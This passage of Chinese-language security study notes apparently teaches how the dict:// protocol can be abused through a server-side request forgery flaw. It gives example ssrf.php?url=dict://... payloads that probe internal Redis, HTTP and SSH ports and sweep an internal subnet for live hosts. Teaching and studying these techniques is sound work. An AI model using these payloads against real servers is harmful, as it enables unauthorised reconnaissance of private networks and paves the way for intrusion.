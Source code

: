     - `dict://<user-auth>@<host>:<port>/d:<word> (dict://+ip:端口+/+TCP/IP 数据)`

    - dict协议可以用来扫描端口，但是只能探测TCP端口有回显的服务 

        ```
        ssrf.php?url=dict://192.168.52.131:6379/info ? // redis
        ssrf.php?url=dict://192.168.52.131:80/info ? ? // http
        ssrf.php?url=dict://192.168.52.130:22/info ? // ssh
        ```

    - 爆破内网c段，和常用端口：

        `url=dict://xxx.xxx.xxx.1:80`

        ![image-20220814202200901](ssrf.assets/image-20220814202200901.png)

        - ![image-20220814202908246](ssrf.assets/image-20220814202908246.png)
        - 发现了内网的主机和服务。
